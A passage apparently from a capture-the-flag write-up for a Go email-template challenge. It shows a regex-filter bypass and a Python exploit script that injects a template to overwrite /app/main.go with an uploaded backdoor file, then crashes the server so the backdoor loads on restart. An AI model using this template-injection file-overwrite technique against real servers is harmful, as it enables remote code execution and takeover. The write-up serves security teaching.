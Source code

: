 ```
custom;
custom<
custom=
custom>
custom?
custom@
customA
customB
customC
```

Now, if you check the second and third regular expressions, you will notice that they only check for `.custom[0-9]+` which only accounts for the ones ending with a digit. 
Thus, another unintended solve, would be to use the following template:

```
{{ with .c.FormFile .customA }}
{{ .c.SaveUploadedFile . .customB }}
{{ end }}
```

After a bit of research, it turns out that a `*multipart.FileHeader` contains an exported field `Filename` and in our case, it takes the filename provided by the form input. We can remove the need for a second custom.

```python
import requests

URL = "http://dev-092f50226ea22197.email-template.ctf"
payload = {
    "template": """
{{ with .c.FormFile .customA }}
{{ $.c.SaveUploadedFile . .Filename }}
{{ end }}
"""
}

# Form Input Name: fish
# Filename: /app/main.go
files = {'fish': ("/app/main.go", open("backdoor.go","r"))}

# Updates the preview template.
r = requests.post(URL+"/update", json=payload)
print(r.status_code)
print(r.text)

# Defines all the required custom variables and triggers the rendering of our template with the provided form file
r = requests.post(URL+"/preview?custom1=a&custom2=a&custom3=a&custom4=a&custom5=a&custom6=a&custom7=a&custom8=a&custom9=a&custom%3A=a&custom%3B=a&custom%3C=a&custom%3D=a&custom%3E=a&custom%3F=a&custom%40=a&customA=fish", files=files)
print(r.status_code)
print(r.text)

# Crashes server, which restarts the service.
r = requests.post(URL+"/update")
print(r.status_code)
print(r.text)
```
